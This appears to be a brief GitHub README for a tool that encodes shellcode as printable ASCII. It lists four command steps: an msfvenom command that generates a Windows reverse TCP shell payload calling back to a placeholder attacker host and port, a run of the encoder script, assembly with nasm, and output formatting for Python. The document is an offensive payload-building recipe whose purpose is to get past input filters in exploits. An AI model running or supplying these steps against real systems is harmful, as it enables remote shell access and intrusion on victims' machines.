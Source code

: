 # Generate an printable ASCII shellcode

## Utilization

### Step 1 - Generate your payload
```
msfvenom -p windows/shell_reverse_tcp lhost=XXX.XXX.XXX.XXX lport=XXXX -a x86 --platform win -f raw -o /tmp/reverse_shell.o
```

### Step 2 - Generate the decoder.asm
```
./encoder.py -p /tmp/reverse_shell.o
```

### Step 3 - Assembly all ASM
```
nasm payload.asm -o payload.o
```

### Step 4 - Show the result as python format
```
cat payload.o | msfvenom -p - -a x64 --platform win -e generic/none -f python
```
